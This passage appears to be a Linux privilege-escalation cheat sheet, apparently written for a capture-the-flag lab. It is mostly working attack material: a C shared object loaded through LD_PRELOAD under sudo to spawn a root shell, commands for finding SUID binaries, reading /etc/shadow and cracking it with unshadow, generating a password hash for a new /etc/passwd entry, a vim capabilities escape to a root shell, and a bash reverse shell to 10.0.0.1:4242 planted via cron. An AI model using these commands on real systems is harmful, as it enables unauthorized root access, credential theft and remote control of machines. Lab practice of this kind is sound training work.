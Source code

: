 ```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
step 3: Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file  
command:   
```bash
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

### Privilege Escalation: SUID  
#### read the /etc/shadow

>[Understanding File Permissions](https://www.elated.com/understanding-permissions/)

command:  [explain](https://chat.openai.com/share/805e4ba0-19e7-4ae2-b118-8004a6cfcecf)
```bash
find / -type f -perm -04000 -ls 2>/dev/null

nano /etc/shadow  
unshadow passwd.txt shadow.txt > passwords.txt
```

#### adding user to /etc/passwd  
command:  [explain](https://chat.openai.com/share/d80cd0f5-a883-4765-b2fc-0d6efdbaeebb)
```bash
openssl passwd -1 -salt THM password1
```

###  Privilege Escalation: Capabilities 
command:  
```bash
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
### Privilege Escalation: Cron Jobs 
command:  
```bash

cat /etc/crontab 

bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```
